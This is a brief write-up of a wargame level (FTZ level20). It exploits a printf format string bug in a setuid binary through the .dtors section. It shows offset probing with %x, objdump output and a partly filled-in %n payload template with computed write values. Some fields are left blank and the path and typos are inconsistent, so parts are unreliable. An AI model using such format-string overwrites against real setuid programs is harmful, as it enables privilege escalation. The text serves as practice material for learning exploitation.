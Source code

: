 # Level20 (Final Level)

## This level's goal
-

***

```
[level20@ftz level20]$ ls -l
-rwsr-sr-x    1 clear    clear       11777 Jun 18  2008 attackme
-rw-r-----    1 root     level20       133 May 13  2002 hint

[level20@ftz level20]$ cat hint

#include <stdio.h>
main(int argc,char **argv)
{ 
  char bleh[80];
  setreuid(3101,3101);
  fgets(bleh,79,stdin);
  printf(bleh);
}
```

In the hint, I could see the printf(bleh) that I might exploit with FSB.

```
[level20@ftz level20]$ ./attackme
AAA
AAA
[level20@ftz level20]$ ./attackme
%x
4f
[level20@ftz level20]$ ./attackme
AAAA %x %x %x %x
AAAA 4f 4212ecc0 4207a750 41414141
```

4f means 79 in decimal, it seeams that I could exploit iu fourth.

```
[level20@ftz level20]$ gdb tmp/attackme
(gdb) disass main
No symbol "main" in current context.
```

I could not see the symbol, so I will get information with objdump.

```
[level20@ftz level20]$ objdump -h attackme

attackme:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn

 18 .dtors        00000008  08049594  08049594  00000594  2**2
                  CONTENTS, ALLOC, LOAD, DATA
```

__DOTR-List's address is 0x08049594 which I will exploit with this.

The attack code format   
`/home/level11/attackme $(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`

Address1 :   
Address2(Address+1) : 

0xbffff49d will be (Value2/Value1) cuz this will be inverted when you input   
Value1 : f49d - 40 = 62621(f49d) - 40 = 62581   
Value2 : 1bfff-f49d = 114687(1bfff) - 62621(f49d) = 52066



